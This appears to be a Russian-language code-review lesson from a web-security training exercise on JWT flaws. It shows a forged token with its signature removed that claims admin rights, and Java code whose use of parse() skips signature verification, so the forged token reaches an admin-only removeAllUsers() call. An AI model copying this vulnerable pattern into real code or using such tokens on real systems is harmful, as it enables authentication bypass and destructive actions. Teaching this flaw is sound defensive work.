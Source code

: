 == Code review (2)

То же, что и раньше, но теперь мы удаляем только часть подписи, оставляя алгоритм как есть.

[source]
----
eyJhbGciOiJIUzI1NiJ9.ew0KICAiYWRtaW4iIDogdHJ1ZSwNCiAgImlhdCIgOiAxNTE2MjM5MDIyLA0KICAic3ViIiA6ICIxMjM0NTY3ODkwIiwNCiAgInVzZXIiIDogIkpvaG4gRG9lIg0KfQ.

{
  "alg" : "HS256"
},
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}
----

Используя следующий метод `parse`, мы все равно можем пропустить проверку подписи.

[source%linenums, java]
----
try {
   Jwt jwt = Jwts.parser().setSigningKey(JWT_PASSWORD).parse(accessToken);
   Claims claims = (Claims) jwt.getBody();
   String user = (String) claims.get("user");
   boolean isAdmin = Boolean.valueOf((String) claims.get("admin"));
   if (isAdmin) {
     removeAllUsers();
   } else {
     log.error("You are not an admin user");
   }
} catch (JwtException e) {
  throw new InvalidTokenException(e);
}
----
